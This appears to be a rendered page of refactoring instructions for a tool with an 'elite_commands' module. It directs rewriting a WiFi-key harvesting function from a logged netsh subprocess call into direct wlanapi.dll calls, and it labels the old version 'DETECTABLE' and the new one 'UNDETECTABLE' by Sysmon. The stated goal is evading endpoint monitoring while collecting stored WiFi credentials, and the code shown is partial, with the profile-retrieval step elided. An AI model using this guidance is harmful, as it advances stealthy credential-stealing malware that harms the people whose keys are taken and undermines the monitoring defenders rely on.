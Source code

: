 **For EACH file, you MUST:**

1. **Find subprocess/os.system/os.popen calls**
```bash
grep -n "subprocess\|os\.system\|os\.popen" Core/elite_commands/elite_wifikeys.py
```

2. **Replace with native API equivalent**

**Example - Fix elite_wifikeys.py:**

**Before (DETECTABLE):**
```python
# Uses subprocess - logged by Sysmon
result = subprocess.run(['netsh', 'wlan', 'show', 'profiles'], capture_output=True)
```

**After (UNDETECTABLE):**
```python
# Use Windows Native WiFi API
import ctypes
from ctypes import wintypes

def elite_wifikeys() -> Dict[str, Any]:
    """Get WiFi keys using Native WiFi API - NO SUBPROCESS"""
    
    # Load wlanapi.dll
    wlanapi = ctypes.windll.LoadLibrary("wlanapi.dll")
    
    # Open WLAN handle
    client_handle = wintypes.HANDLE()
    negotiated_version = wintypes.DWORD()
    
    result = wlanapi.WlanOpenHandle(
        2,  # Client version
        None,
        ctypes.byref(negotiated_version),
        ctypes.byref(client_handle)
    )
    
    if result != 0:
        return {"success": False, "error": "Failed to open WLAN handle"}
    
    # Enumerate interfaces
    interface_list = ctypes.c_void_p()
    result = wlanapi.WlanEnumInterfaces(
        client_handle,
        None,
        ctypes.byref(interface_list)
    )
    
    profiles = []
    
    # For each interface, get profiles
    # ... (use WlanGetProfileList, WlanGetProfile APIs)
    
    # Close handle
    wlanapi.WlanCloseHandle(client_handle, None)
    
    return {
        "success": True,
        "profiles": profiles
    }
```
